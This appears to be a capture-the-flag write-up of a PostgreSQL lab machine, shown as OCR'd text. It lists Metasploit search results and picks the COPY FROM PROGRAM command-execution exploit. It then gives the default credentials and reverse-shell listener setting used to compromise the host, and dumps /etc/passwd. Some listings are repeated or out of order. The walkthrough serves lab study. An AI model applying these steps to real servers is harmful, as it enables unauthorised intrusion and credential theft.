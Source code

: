 ```bash
   3   exploit/windows/misc/manageengine_eventlog_analyzer_rce     2015-07-11       manual     Yes    ManageEngine EventLog Analyzer Remote Code Execution
   4   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   5   auxiliary/analyze/crack_databases                                            normal     No     Password Cracker: Databases
   6   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   7   exploit/multi/postgres/postgres_createlang                  2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   8   auxiliary/scanner/postgres/postgres_dbname_flag_injection                    normal     No     PostgreSQL Database Name Command Line Flag Injection
   9   auxiliary/scanner/postgres/postgres_login                                    normal     No     PostgreSQL Login Utility
   10  auxiliary/admin/postgres/postgres_readfile                                   normal     No     PostgreSQL Server Generic Query
```

# What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?
- #6 exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```bash
msf6 > search postgres

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   3   exploit/windows/misc/manageengine_eventlog_analyzer_rce     2015-07-11       manual     Yes    ManageEngine EventLog Analyzer Remote Code Execution
   4   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   5   auxiliary/analyze/crack_databases                                            normal     No     Password Cracker: Databases
   6   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
```
# Compromise the machine and locate user.txt
- using exploit/multi/postgres/postgres_copy_from_program_cmd_exec 
- set username to postgres
- set password to password
- set lhost to tun0
```
cat /etc/passwd reveals users Alison and Dark
```bash
postgres@ubuntu:/var/lib/postgresql/9.5/main$ cat /etc/passwd
cat /etc/passwd
#/home/dark/credentials.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```